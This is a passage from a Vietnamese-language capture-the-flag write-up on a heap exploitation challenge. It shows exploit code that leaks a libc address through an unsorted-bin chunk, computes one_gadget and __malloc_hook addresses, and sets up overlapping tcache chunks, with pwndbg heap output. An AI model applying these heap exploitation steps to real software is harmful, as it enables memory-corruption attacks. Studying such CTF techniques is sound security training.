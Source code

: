 ## War:

### Info leak:

- Ta chỉ cần malloc 1 size vượt quá tcache để vào unsorted bin sau đó free thì fd của nó sẽ là main arena + 98 sau đó tính libc_base ...

```c
add(0,'web','b',0x500,"a",1000)
add(1,'web','b',0x38,"a",1000)
add(2,'web','c',0x38,"a",1000)
free(0)
free(1)
free(2)
add(0,'web','b',0x500,"\xa0",1000)
add(1,'web','b',0x38,"a",1000)

deploy(0)
p.recvuntil('Description: ')
libc_base = u64(p.recv(6)+"\x00"*2) - 0x3ebca0
print "libc_base: ",hex(libc_base)

one = libc_base + 0x10a41c
_malloc_hook = libc_base + libc.symbols['__malloc_hook']
print "One: ",hex(one)
print "__malloc_hook: ",hex(_malloc_hook)
```

- Khi có các địa chỉ cần thiết ta cần chuẩn bị cho overlapping, ở đây mình có thêm 2 chunk với size 0x38 là vì khi free nó sẽ được đưa vào tcache 0x40 và như ta biết khi add() nó sẽ tạo cho ta 1 chunk cố định 0x30 (từ bin 0x40) và 1 chunk tự chọn size. Nên nếu làm bình thường khi add 3 chunk thì chunk 1 và 2 sẽ không liền kề nên ta không thể overwrite size được. Vì thế mình có add thêm 1 chunk với size 0x38 là khi free sẽ có sẵn trong bin 2 chunk 0x40.

```c
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x55555555d000
Size: 0x251

Free chunk (tcache) | PREV_INUSE
Addr: 0x55555555d250
Size: 0x41
fd: 0x00

Allocated chunk | PREV_INUSE
Addr: 0x55555555d290
Size: 0x511

Allocated chunk | PREV_INUSE
Addr: 0x55555555d7a0
Size: 0x41

Free chunk (tcache) | PREV_INUSE
Addr: 0x55555555d7e0
Size: 0x41
fd: 0x55555555d260

Allocated chunk | PREV_INUSE
Addr: 0x55555555d820
Size: 0x41

Allocated chunk | PREV_INUSE
Addr: 0x55555555d860
Size: 0x41
```